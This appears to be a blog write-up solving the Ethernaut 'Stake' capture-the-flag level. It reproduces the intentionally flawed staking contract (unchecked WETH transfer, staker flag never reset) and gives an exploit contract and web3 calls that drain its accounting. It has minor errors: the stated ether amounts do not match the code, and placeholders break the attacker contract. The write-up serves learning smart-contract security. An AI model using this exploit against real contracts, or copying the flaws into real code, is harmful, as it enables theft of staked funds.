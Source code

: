 ```yaml
---
layout: post
title: "Ethernaut CTF WriteUp Stake 31 "
date: 2024-06-01 13:07:12
categories: blog
---
```


Ethernaut latest Challenge

<!--more-->

## 31 Stake
Chall description: 

Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens. Can you drain the contract?

To complete this level, the contract state must meet the following conditions:

- The Stake contract's ETH balance has to be greater than 0.
- totalStaked must be greater than the Stake contract's ETH balance.
- You must be a staker.
- Your staked balance must be 0.


Stake Contract : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

To Solve this challenge we need to meet the 4 conditions above.

At first glance of the Contract in Unstake function missing the `Stakers[msg.sender] = false`, So we can stake and unstake our ETH and still remains as a Staker.
This satisfies the 3,4 conditions but what about the first 2 ?

- For that, Initially UserB stakes `0.001 ether` using `StakeETH()` function.

Contract state :  
```
totalStaked = 0.001 ether
UserStake[userB] = 0.001 ether;
```
- Again UserB stakes `0.001 ether` using `StakeWETH()` function. To do this userB should create a WETH token instance with msg.value 0.001 ether(which calls depoist function in WETH token contract).

Contract state :  
```
totalStaked = 0.002 ether
UserStake[userB] = 0.002 ether;
```
- The Unstake function only sending ETH from contract not the WETH 
`(bool success, ) = payable(msg.sender).call{value : amount}("");` 
- Now call the Unstake function with ether less than 0.001 ether (assume it as X). Which leaves some ether on the contract balance. 

Contract state :
```
totalStaked = 0.001 ether + (0.001 - X) 
UserStake[userB] = 0.001 ether + (0.001 - X) 
Contracts Balace = 0.001 - X ( which is greater than 0) 

```
userB contract : 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./IWETH.sol";
import "./Stake.sol";

contract userB {
    IWETH public weth;
    

    constructor(address _weth) payable  {
        weth = IWETH(_weth);
    }

    function stakeUserB() public payable {
        Stake stake = Stake(//stake instance);
        uint256 amount = 10000000000000000 wei;
        stake.StakeETH{value: amount}();
        weth.approve(address(stake), amount);
        stake.StakeWETH(amount);
        stake.Unstake(amount - 10);
    }

    receive() external payable {
        (bool success) = payable(//player address).send(address(this).balance - 1);
        require(success);
    }

}
```

- From the player account call StakeETH() and UnStakeETH() with 0.001 ether.

```js
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: web3.eth.abi.encodeFunctionSignature('StakeETH()'),
  value: 10000000000000000
});

await contract.Unstake(10000000000000000);
```

Contract State After this : 
```
totalStaked = 0.001 ether + (0.001 - X) 
UserStake[userB] = 0.001 ether + (0.001 - X) 
Contracts Balace = 0.001 - X ( which is greater than 0)
Staker[player] = true
UserStake[player] = 0
```

All 4 conditions are satisfied .
```
Congratulations, you have cracked the Stake machine!

```
